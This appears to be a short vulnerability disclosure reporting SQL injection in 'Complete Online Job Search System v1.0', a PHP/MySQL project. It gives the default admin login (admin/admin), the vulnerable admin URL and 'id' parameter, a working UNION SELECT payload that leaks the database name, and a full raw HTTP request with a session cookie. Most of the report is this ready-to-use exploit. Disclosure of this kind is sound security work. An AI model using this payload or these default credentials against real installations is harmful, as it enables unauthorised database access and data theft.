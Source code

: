 # Complete Online Job Search System v1.0 has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/user/index.php?view=edit&id=

Vulnerability location: /eris/admin/user/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/user/index.php?view=edit&id=-00018%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /eris/admin/user/index.php?view=edit&id=-00018%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849254-9d50f1e7-d17c-4e8a-ae71-88d9fca54657.png)

![image](https://user-images.githubusercontent.com/54017627/170849257-ac884948-2f73-497f-89cd-c710ddd1f86f.png)
